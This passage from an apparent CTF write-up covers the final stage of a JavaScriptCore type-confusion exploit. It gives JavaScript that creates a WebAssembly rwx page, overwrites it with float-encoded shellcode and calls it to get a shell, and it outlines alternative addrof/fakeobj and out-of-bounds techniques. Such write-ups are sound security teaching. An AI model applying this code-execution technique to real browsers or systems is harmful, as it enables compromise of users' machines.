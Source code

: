 Now that we have arbitrary read and write, as well as a primitive to leak, the rest of the exploit is pretty easy. We can use either a JIT compiled function or a wasm function, which will both create `rwx` pages, write our own shellcode to the generated `rwx` page, then call the aforementioned function, to get code execution! 

This snippet of code will do the trick:
```js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main
var addr_f = addrof(f)
var addr_shellcode = read(addr_f + 0x38)

let shellcode = [
    2.825563119134789e-71, 3.2060568105999132e-80,
    -2.5309726874116607e+35, 7.034840446283643e-309
]

for(var i = 0; i < shellcode.length; i++) {
    write(addr_shellcode + i*8, shellcode[i])
}
f()
```
Note: you will have to do a number of int-to-float and float-to-int conversions, but I've not included them in the snippets for the sake of clarity. My full exploit will be present at the end of this post.

The release build of the `jsc` binary was running on the server, so just giving it our exploit gives us a shell!

### Other exploit methods

I found that there were multiple other ways to exploit this while testing the challenge, all of which were more difficult/contrived than the method I used. A couple such methods were:

+ Using the type confusion to create a standard confusion between boxed and unboxed arrays, then creating `addrof` and `fakeobj` primitives to fake a JSObject and create an overlap between two JSObjects. However, a few difficulties you would face while using this method is that you would need a StructureID leak (which can be obtained using inline properties), and you would need to be able to create both primitives in a single JITed function.
+ Another more advanced version of the previous method would be to use the type confusion to write OOB into an Array's length field, thus creating an array overflow and potentially a more stable type confusion. However, you would still need a StructureID leak to exploit this.

Edit: After the CTF, I found that the majority of teams used the first of these two methods to exploit this challenge.

## Full exploit
